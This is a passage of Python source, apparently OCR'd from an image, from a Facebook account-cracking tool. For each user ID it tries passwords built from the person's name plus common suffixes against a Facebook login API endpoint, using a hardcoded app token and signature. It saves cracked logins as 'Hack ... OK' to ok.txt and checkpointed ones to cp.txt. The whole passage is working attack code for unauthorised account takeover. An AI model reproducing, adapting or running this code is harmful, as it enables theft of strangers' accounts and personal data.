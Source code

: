 		                        print("Error "+uid+" | "+pass3+" --> CP")
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass3+" --> OK\x1b[1;0m")
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("Error "+uid+" | "+pass4+" --> CP")
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass4+" --> OK\x1b[1;0m")
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5=name+"123"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("Error "+uid+" | "+pass5+" --> CP")
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass5+" --> OK\x1b[1;0m")
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6=name+"1234"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
		                                                print("Error "+uid+" | "+pass6+" --> CP")
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()